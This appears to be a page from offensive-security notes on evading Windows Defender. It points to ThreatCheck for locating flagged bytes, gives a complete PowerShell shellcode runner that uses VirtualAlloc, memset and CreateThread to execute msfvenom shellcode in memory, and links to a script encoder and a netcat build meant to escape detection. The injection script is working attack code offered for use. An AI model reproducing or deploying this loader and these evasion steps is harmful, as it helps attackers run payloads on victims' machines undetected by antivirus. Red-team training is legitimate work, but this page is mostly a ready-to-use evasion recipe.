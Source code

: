 A good way for checking against Windows Defender static detection is [https://github.com/rasta-mouse/ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) It basically splits the file into multiple segments and then tasks Defender to scan each one individually, this way, it can tell you exactly what are the flagged strings or bytes in your binary.It basically splits the file into multiple segments and then tasks Defender to scan each one individually, this way, it can tell you exactly what are the flagged strings or bytes in your binary.

## Thread Injection

{% code overflow="wrap" fullWidth="true" %}
```bash
# In-memory payload injection script for PowerShell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];   
[Byte[]] $var1 = <place your shellcode here using msfvenom and the format is 0xfc,0xe8>

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
{% endcode %}

## Powershell script encoder

{% embed url="https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py" %}

## Other Netcat version

To not trigger the common ones available on Kali that Defender knows.

| [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe) |
| ---------------------------------------------------------------------- |
